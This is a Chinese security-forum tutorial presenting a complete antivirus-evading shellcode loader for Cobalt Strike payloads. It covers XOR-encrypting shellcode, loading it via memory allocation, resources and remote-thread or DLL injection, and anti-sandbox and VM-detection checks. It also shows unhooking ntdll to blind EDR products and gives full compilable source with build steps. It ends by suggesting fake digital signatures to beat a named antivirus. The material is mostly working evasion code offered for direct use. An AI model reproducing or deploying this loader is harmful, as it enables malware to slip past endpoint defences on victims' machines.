

# 奇安信攻防社区-【Web实战】先锋马免杀分享

### 【Web实战】先锋马免杀分享

作者:凝 先看效果(文中附源码) 思路 1.shellcode自身免杀 首先cs生成一个bin文件 再没有二开的情况下落地就会死 那么如何处理呢? 可以通过对shellcode进行加密和编码的方式,然后在内存中进行...

作者:凝

## 先看效果(文中附源码)




## 思路

### 1.shellcode自身免杀

首先cs生成一个bin文件

  
再没有二开的情况下落地就会死

**那么如何处理呢?**

**可以通过对shellcode进行加密和编码的方式,然后在内存中进行解密执行**

**这里介绍几种主流的编码和加密方式**

**编码方式:** base64 sgn编码

**加密方式**: XOR RC4强加密 UUID

**在国内的对抗环境下xor加密就足够了 ,RC4的强加密会使得文件的商值过高导致报读**

这里就介绍一种010 Editor 进行 xor 加密

我们在010 Editor 中打开该bin文件然后选择 XOR加密


然后设置xor 的key


最后保存即可,此时的bin文件是经过了XOR加密 ,**密钥为 0x39**

**同时推荐几种加密方式:**

**1.xor 双加密**

**2.xor加密 + sgn编码**

**3.xor 加密 +base64编码**

**4.uuid+base64编码**

**各位可以自行搭配**

### 2.shellcode的加载方式

shellcode的加载方式有很多种,这里以C/C++作为示范

#### 1、指针执行

```php
#include <Windows.h>
#include <stdio.h>

unsigned char shellcodeloader[] ="shellcode";

int main()
{
    ((void(*)(void)) & shellcodeloader)();
}
```

#### 2.申请内存执行

```php
#include <Windows.h>
#include <stdio.h>

int main()
{
    char shellcode[] = "shellcode";
    void* run = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    //使用 VirtualAlloc申请一块可读可写可执行的内存(PAGE_EXECUTE_READWRITE)
    memcpy(run, shellcode, sizeof shellcode);
    //使用memcopy将shellcode拷贝到刚刚申请的内存中
    ((void(*)())run)();
}
```

#### 3.资源加载shellcode

这也是我木马免杀的执行方式

先补充一些前置知识需要学习3个函数

**1、FindResource：该函数确定指定模块中指定类型和名称的资源所在位置。**

```php
HRSRC FindResource(
  [in, optional] HMODULE hModule,
  [in]           LPCSTR  lpName,
  [in]           LPCSTR  lpType
);
```

-   hModule：处理包含资源的可执行文件的模块。NULL值则指定模块句柄指向操作系统通常情况下创建最近过程的相关位图文件。
-   lpName：指定资源名称。若想了解更多的信息，请参见注意部分。
-   lpType：指定资源类

```php
HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_CALC_BIN1), L"calc_bin");
```

-   MAKEINTRESOURCE将一个整数值转换为一种资源类型

**2、SizeofResource：表示该函数返回指定资源的字节数大小。**

```php
DWORD SizeofResource(
  [in, optional] HMODULE hModule,
  [in]           HRSRC   hResInfo
);
```

-   hModule：包合资源的可执行文件模块的句柄。
-   hReslnfo：资源句柄。此句柄必须由函数FindResource或[FindResourceEx](https://baike.baidu.com/item/FindResourceEx)来创建。

```php
DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
```

**3、LoadResource：装载指定资源到全局存储器**

```php
HGLOBAL LoadResource(
  [in, optional] HMODULE hModule,
  [in]           HRSRC   hResInfo
);
```

-   hModule：处理包合资源的可执行文件的模块句柄。若hModule为NULL，系统从当前过程中的模块中装载资源。
-   hReslnfo：将被装载资源的句柄。它必须由函数[FindResource](https://baike.baidu.com/item/FindResource/6375062) \[1\] 或[FindResourceEx](https://baike.baidu.com/item/FindResourceEx)创建。

```php
HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);
```

下面是完整的源码

```php
DWORD oldProtect;
BOOL pt;
HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_PAYLOAD_BIN1), L"PAYLOAD_BIN");
//找到shellcode资源，获取它的资源句柄
//它的名称为IDR_PAYLOAD_BIN1，类型为PAYLOAD_BIN
HGLOBAL shellcodeResourceData = LoadResource(NULL, shellcodeResource);
//读取其中的数据
DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
//读取数据⻓度，开辟内存空间读⼊，获得该空间指针
```

#### 4.无API加载shellcode

我们希望我们的shellcode被分配在可执行文件的.text部分中，这样就不需要分配RWX内存块来存储shellcode。此外，  
我们需要将shellcode数组强制转换为函数指针并调用它-

```php
#pragma section(".text")

__declspec(allocate(".text")) char goodcode[] = {  };

int main()
{
    //(*(void(*)())(&goodcode))();
    ((void(*)())(&goodcode))();
}
```

利用

设置data段可写 执行shellcode

```php
#include <Windows.h>

#pragma comment(linker, "/section:.data,RWE")//设置data段可写,就这么短短一行代码
unsigned char shellcode[] = {  };
//全局变量会保存在.data中，

int main()

{
    ((void(*)())(void*)shellcode)();//执行shellcode
}
```

#### 5.远程线程注入

**\*火绒对于线程注入的操作并不敏感,但是某数字杀软晶核的环境下除了高信誉的白名单以外不要尝试进程或者线程注入**

**我们也可以通过CreateToolhelp32Snapshot去获取系统中正在运行的进程信息，线程信息然后进行判断,如果是火绒的环境就进行注入,如果是某数字杀软的环境就指针执行或者是注入自身(某数字杀软任何注入自身没有威胁)**

我们先学习一下前置知识:

使用远程线程注入，我们需要使用4个主要函数：OpenProcess, VirtualAllocEx, WriteProcessMemory，CreateRemoteThread

**思路:**

1.  打开远程进程的句柄（pid）(OpenProcess)
2.  使用VirtualAllocEx在远程进程中分配具有读、写和执行必要权限的内存空间
3.  然后使用WriteProcessMemory将shellcode写入到内存缓冲区中
4.  最后通过调用CreateRemoteThread来创建远程线程

主要是了解一下每一个windowsAPI的功能和传入的参数

1、OpenProcess

```php
HANDLE OpenProcess(
  [in] DWORD dwDesiredAccess,
  [in] BOOL  bInheritHandle,
  [in] DWORD dwProcessId
);
```

-   dwDesiredAccess：一个或多个进程访问权限
-   bInheritHandle：是否继承句柄
-   dwProcessId：进程的标识符

```php
printf("Injecting to PID: %i", atoi(argv[1]));
processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
```

2、VirtualAllocEx

```php
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

-   hProcess：进程的句柄。该函数在该进程的虚拟地址空间内分配内存，句柄必须具有**PROCESS\_VM\_OPERATION**访问权限
-   lpAddress：保留页面的内存地址；一般用NULL自动分配
-   dwSize：要分配的内存区域的大小，以字节为单位
-   flAllocationType：内存分配的类型
-   flProtect：该内存的初始保护属性

```php
remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE)
```

3、WriteProcessMemory

```php
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

-   hProcess：要修改的进程内存的句柄。句柄必须拥有对进程的PROCESS\_VM\_WRITE和PROCESS\_VM\_OPERATION访问权限
-   lpBaseAddress：要写的内存首地址
-   lpBuffer：指向要写的数据的指针
-   nSize：要写入的字节数
-   lpNumberOfBytesWritten：指向一个变量的指针，该变量接收传输到指定进程的字节数。该参数是可选的。如果*lpNumberOfBytesWritten*存在**空**，则忽略该参数。

```php
WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
```

4、CreateRemoteThread

```php
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```

-   hProcess：将在其中创建线程的进程的句柄
-   lpThreadAttributes：一个指向 [**SECURITY\_ATTRIBUTES**](https://baike.baidu.com/item/SECURITY_ATTRIBUTES) 结构的指针, 该结构指定了线程的安全属性.
-   dwStackSize：[线程](https://baike.baidu.com/item/%E7%BA%BF%E7%A8%8B/103101)栈初始大小,以字节为单位,如果该值设为0,那么使用系统默认大小.
-   lpStartAddress：在远程进程的[地址空间](https://baike.baidu.com/item/%E5%9C%B0%E5%9D%80%E7%A9%BA%E9%97%B4/1423980)中,该线程的线程函数的起始地址.
-   lpParameter：指向要传递给线程函数的变量的指针。
-   dwCreationFlags：线程的创建标志.
-   lpThreadId：指向所创建线程ID的指针，如果该参数为空，则不返回线程标识符

```php
remoteThread = CreateRemoteThread(processHandle, NULL, 0,
(LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
```

**接下来是完整的代码**

```php
#include <Windows.h>
#include <stdio.h>

int main(int argc, char* argv[])
{
    unsigned char shellcode[] = {};

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;

    printf("Injecting to PID: %i", atoi(argv[1]));
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
  //打开进程
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode,
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
  //申请内存
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
  //写入内存
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, 
  (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
  //创建远程线程
    CloseHandle(processHandle);
    return 0;
}
```

**看到这里相信各位也想到了一个问题,如果我想要远程注入notepad,如何获取到他的PID呢?**

**那就得使用到我们之前所说的CreateToolhelp32Snapshot**

**我们接着学习三个windowsAPI**

**1、CreateToolhelp32Snapshot：可以获取系统中正在运行的进程信息，线程信息**

```php
HANDLE CreateToolhelp32Snapshot(
  [in] DWORD dwFlags,
  [in] DWORD th32ProcessID
);
```

-   dwFlags：用来指定“快照”中需要返回的对象，可以是TH32CS\_SNAPPROCESS等
-   th32ProcessID：一个进程ID号，用来指定要获取哪一个进程的快照，当获取系统进程列表或获取 当前进程快照时可以设为0

```php
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);//创建一个系统快照
```

**2、Process32First：获得第一个进程的句柄**

```php
BOOL Process32First(
[in]      HANDLE           hSnapshot,
[in, out] LPPROCESSENTRY32 lppe
);
```

**3、Process32Next：获得下一个进程的句柄**

```php
BOOL Process32Next(
[in]  HANDLE           hSnapshot,
[out] LPPROCESSENTRY32 lppe
);
```

完整代码:

```php
DWORD FindTargetPID(LPCTSTR lpszProcess)//参数lpszProcess指明想要获取的目标进程的名字
{
    DWORD dwRet = 0;
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    //创建一个系统快照
    PROCESSENTRY32 pe32;
    //这里定义了一个PROCESSENTRY32结构,它用来保存进程信息
    pe32.dwSize = sizeof(PROCESSENTRY32);//结构大小
    Process32First(hSnapshot, &pe32);
    //获取系统快照中的第一个系统进程
    do
    {
        if (lstrcmpi(pe32.szExeFile, lpszProcess) == 0)
        //lstrcmpi函数用获取的进程名与指定的进程名进行比较
        {
            dwRet = pe32.th32ProcessID;
            //获取进程ID
            break;
        }
    } while (Process32Next(hSnapshot, &pe32));
    //循环
    CloseHandle(hSnapshot);
    //关闭系统快照
    return dwRet;
    //返回进程ID
}
```

6.需要用到LoadLibraryA

经典DLL注入到远程进程中，根据上面远程进程注入的知识，写出简单的demo

我们利用cs生成的dll文件上传到目标电脑上然后编译对应的exe,也就是说双文件落地的形式

即: cs上线的dll文件 dllinject.exe

```php
#include <Windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
    HANDLE processHandle;
    PVOID remoteBuffer;
    wchar_t dllPath[] = TEXT("C:\\Users\\ning\\Desktop\\DLLinject\\cs.dll");
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath,
  MEM_COMMIT, PAGE_READWRITE);
    WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
    PTHREAD_START_ROUTINE threatStartRoutineAddress = 
  (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
    CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, 
  remoteBuffer, 0, NULL);
    CloseHandle(processHandle);
    return 0;
}
```

**那么我们不妨发散思维,我们可以远端加载dll文件进行注入,在目标上只留下dllinject.exe,同时在完成上线后**

**我们将远端的dll文件删除,这样云沙箱是不是就无法加载了?**

#### 6.RW+RX的内存

AV/EDR喜欢扫描具有RWX属性的内存区域,尤其是国外著名的卡巴斯基,其内存扫描的本质就是扫描内存中的RWX权限，所以我们使用RW+RX来规避

步骤:

1.VirtualAlloc申请可读可写的内存属性 **RW**

2.memcopy将shellcode拷贝到内存

3.VirtualProtect改变内存属性为**RX**

4.指针执行

那么下面我们来学习一下VirtualProtect

**VirtualProtect：可以用来改变内存属性**

```php
BOOL VirtualProtect(
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
```

-   **lpAddress：指向要变更保护属性的地址起始位置**
-   **dwSize：要更改其访问保护属性的区域的大小**
-   **flNewProtect：更改的内存属性**
-   **lpflOldProtect：内存原始属性保存地址**

**代码如下：**

```php
#include <Windows.h>

int main() {
    int shellcode_size = 0; // shellcode长度
    BOOL pt;
    DWORD oldProtect;
    unsigned char buf[] = {  };
    shellcode_size = sizeof(buf);
    LPVOID shellcode;
    shellcode = VirtualAlloc(NULL, shellcode_size, MEM_COMMIT, 0x04);
    CopyMemory(shellcode, buf, shellcode_size);
    pt = VirtualProtect(shellcode, shellcode_size, 0x20, &oldProtect);
    ((void(*)())shellcode)();
}
```

由于篇幅有限,APC注入等涉及到windows异常处理机制,这里暂不介绍,有兴趣可以自行了解

### 3.反沙箱

反沙箱是木马免杀中极为重要的一环

为什么这么说呢?

**所有的杀软本地都会有一个内置的沙箱,当我们想要运行一个陌生的exe时,都会在沙箱中模拟运行,所有木马能否上线的关键点在于反沙箱**

##### 那么沙箱查杀的是什么呢?

1.静态查杀

如何处理?

做好 源代码的混淆 资源文件 动态解析API

2.动态查杀

当你的exe在运行是**修改注册表实现自启动**或者是**释放某些文件**亦或是**添加用户** ,此时沙箱会检测此类操作,

**然后报读**

##### 我们要写反沙箱首先要了解沙箱的特性是什么:

沙箱不是真实的环境,而是被虚拟话出来的

1.常规的反沙箱

我们可以通过延迟执行、开机时间、物理内存、CPU核心数，文件名、磁盘大小、500M内存0填充、用户名、进程名去判断是否是在沙箱的环境中,如果是在沙箱的环境,那就退出

2.钓鱼的如何写反沙箱

或者是检测当前环境是否有微信、钉钉、或者鼠标是否移动来判断

接下来给出我常用的反沙箱代码:

1.检测当前操作系统是否超过十分钟,如果没超过就退出

```php
int a(){
    check();
    ULONG uptime = GetTickCount();
    if (uptime >= 10 * 60 * 1000) {
        //MessageBox(NULL, L"程序异常！", L"异常,请稍后", MB_OK | MB_ICONERROR);
    }
    else {
        exit(1);
}
```

2.检测当前环境的进程有没有超过60个,如果没有就退出

因为沙箱的进程一般都少于40个,正常电脑的进程应该很多

```php
void BypassSimulation()
{

    HANDLE snapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    if (INVALID_HANDLE_VALUE == snapShot)
    {
        return;
    }
    PROCESSENTRY32 pe = { sizeof(pe) };

    int num = 0;
    for (BOOL ret = Process32First(snapShot, &pe); ret; ret = Process32Next(snapShot, &pe))
    {
        num++;
    }
    if (num <= 60)
    {
        exit(1);
    }

}
```

3.检测发行版本是否为中文

```php
int check() {

    LANGID langId = GetUserDefaultUILanguage();
    if (PRIMARYLANGID(langId) == LANG_CHINESE)
    {
        printf("Chinese");
        RunCode();
    }
    else
    {
        printf("Error");
        exit(1);
    }
    return 0;

}
```

4.检测是否在虚拟机中

```php
int check(char* name) {
    const char* list[4] = { "vmtoolsd.exe","vmwaretrat.exe","vmwareuser.exe","vmacthlp.exe" };
    for (int i = 0; i < 4; i++) {
        if (strcmp(name, list[i]) == 0)
            return -1;
    }
    return 0;
}

bool CheckProcess() {
    PROCESSENTRY32 pe32;
    pe32.dwSize = sizeof(pe32);
    HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    BOOL bResult = Process32First(hProcessSnap, &pe32);
    while (bResult) {
        char ss_Name[MAX_PATH] = { 0 };
        WideCharToMultiByte(CP_ACP, 0, pe32.szExeFile, -1, ss_Name, sizeof(ss_Name),
    NULL, NULL);
        //printf("%s\n", ss_Name);
        if (check(ss_Name) == -1)
            return false;
        bResult = Process32Next(hProcessSnap, &pe32);
    }
    return true;
}

bool checkReg() {
    HKEY hkey;
    if (RegOpenKey(HKEY_CLASSES_ROOT, L"\\Applications\\VMwareHostOpen.exe",
  &hkey) == ERROR_SUCCESS) {
        return true;
    }
    else {
        return false;
    }

}

bool checkfile() {
    WIN32_FIND_DATAW findFileData;
    if (FindFirstFileW(L"C:\\Program Files\\VMware\\VMware Tools\\VMToolsHook.dll", 
  &findFileData) == INVALID_HANDLE_VALUE) 
        return false;
}
```

### 4.和edr的一些对抗

像x擎或者是某藤云的一些edr产品会对ntdll.dll进行hook挂钩

如何理解?

先介绍一下windowsapi的调用链

我们常用的一些windowsapi函数都存储在kernel32.dll的动态链接库中

比如说我们使用VirtualAlloc函数,那么他是如何被一步步调用的呢

首先是在3环,即用户层的 kernel32.dll中调用kernelVirtualAlloc

然后kernelVirtualAlloc去调取ntdll中的NtVirtualAlloc

最后NtVirtualAlloc通过syscall的方式去内存层实现分配内存

而杀软会对这些dll文件进行hook监控

当我们再调用VirtualAlloc时,edr会修改ntdll中的该函数使其jmp到edr内置的dll中,edr会

通过你的函数调用去查杀

**那么重点来了,如何去对抗呢?**

**1.在shellcodeloader时添加大量垃圾函数或者执行一些东西打乱edr查杀**

**2.直接通过syscall绕过edr的hook(某数字杀软晶核的环境下依然会被检测到)**

**3.重新加载一份干净的ntdll文件**

这里着重给大家介绍第三种,直接附上源码安心食用即可

```php
int main()
{
    HANDLE process = GetCurrentProcess();
    MODULEINFO mi = {};
    HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
    GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
    LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;

    HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll",
  GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, 
  PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

    PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
    PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + 
  hookedDosHeader->e_lfanew);

    for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
        PIMAGE_SECTION_HEADER hookedSectionHeader = 
    (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) 
    + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

        if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
            DWORD oldProtection = 0;
            bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + 
      (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
            memcpy((LPVOID)((DWORD_PTR)ntdllBase + 
      (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      (LPVOID)((DWORD_PTR)ntdllMappingAddress +
      (DWORD_PTR)hookedSectionHeader->VirtualAddress),
      hookedSectionHeader->Misc.VirtualSize);
            isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase 
      + (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
        }
    }
    CloseHandle(process);
    CloseHandle(ntdllFile);
    CloseHandle(ntdllMapping);
    FreeLibrary(ntdllModule);

    return 0;
}
```

### 具体实现

**该将的都讲了,接下来上源码!**

需要注意的是,132行的key设置为文章开头你加密的key

```php
#include <Windows.h>
#include <wincrypt.h>
#include <string.h>
#include <stdlib.h>
#include <winreg.h>
#include <tlhelp32.h>
#include <time.h>
#include "resource.h"
#include <io.h>
#pragma comment(lib, "Crypt32.lib")
#include <psapi.h>
#include <iostream>
#include <stdio.h>
#pragma comment( linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

DWORD UNHOOKntdll() {
    MODULEINFO mi = {};
    HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
    GetModuleInformation(HANDLE(-1), ntdllModule, &mi, sizeof(mi));
    LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
    HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", 
  GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, 
  PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);
    PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
    PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase +
  hookedDosHeader->e_lfanew);
    for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++)
    {
        PIMAGE_SECTION_HEADER hookedSectionHeader = 
    (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) 
    + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));
        if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
            DWORD oldProtection = 0;
            bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase
      + (DWORD_PTR)hookedSectionHeader->VirtualAddress),
      hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
            memcpy((LPVOID)((DWORD_PTR)ntdllBase +
      (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      (LPVOID)((DWORD_PTR)ntdllMappingAddress
      + (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      hookedSectionHeader->Misc.VirtualSize);
            isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase +
      (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
        }
    }
    CloseHandle(ntdllFile);
    CloseHandle(ntdllMapping);
    FreeLibrary(ntdllModule);
    return 0;
}

void BypassSimulation()
{

    HANDLE snapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    if (INVALID_HANDLE_VALUE == snapShot)
    {
        return;
    }
    PROCESSENTRY32 pe = { sizeof(pe) };

    int num = 0;
    for (BOOL ret = Process32First(snapShot, &pe);ret; ret = Process32Next(snapShot, &pe))
    {
        num++;
    }
    if (num <= 60)
    {
        exit(1);
    }

}

void RunCode() {}
//检测发行版本
int check() {

    LANGID langId = GetUserDefaultUILanguage();
    if (PRIMARYLANGID(langId) == LANG_CHINESE)
    {
        printf("Chinese");
        RunCode();
    }
    else
    {
        printf("Error");
        exit(1);

    }
    return 0;

}

int main(int argc, char* argv[])
{
    //先绕沙箱
    BypassSimulation();

    check();
    ULONG uptime = GetTickCount();
    if (uptime >= 10 * 60 * 1000) {
        MessageBox(NULL, L"程序异常！", L"异常,请稍后", MB_OK | MB_ICONERROR);
    }
    else {
        exit(1);
    }

    UNHOOKntdll();

    DWORD oldProtect;
    BOOL pt;
    //找到shellcode资源，获取它的资源句柄
    //它的名称为IDR_PAYLOAD_BIN1，类型为PAYLOAD_BIN
    HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_PAYLOAD_BIN1), 
  L"PAYLOAD_BIN");
    //读取其中的数据
    HGLOBAL shellcodeResourceData = LoadResource(NULL, shellcodeResource);
    //读取数据⻓度，开辟内存空间读⼊，获得该空间指针
    DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
    LPSTR shell = (LPSTR)VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_READWRITE);
    //shellcode数据拷⻉进shell指向的内存空间
    memcpy(shell, shellcodeResourceData, shellcodeSize);
    //此时shellcode已经进⼊内存空间，开始解密执⾏
    //先异或回来
    for (int i = 0; i < shellcodeSize; i++)
    {
        shell[i] ^= 0x39;
    }
    pt = VirtualProtect(shell, shellcodeSize, PAGE_EXECUTE_READ, &oldProtect);
    ((void(*)())shell)();
    return 0;
}
```

由于我是使用资源文件加载的,我们需要在VS中配置一下

配置为release 的X86


然后修改代码生成为MT模式


点开资源文件然后添加一个资源


讲我们本地的bin文件加载进来重命名为payload.bin

最后重新生成解决方案即可

看下效果


补充一下:在某数字杀软晶核的对抗环境下,由于其非黑即白的特性,需要添加图标详细信息以及打上假的数字签名即可
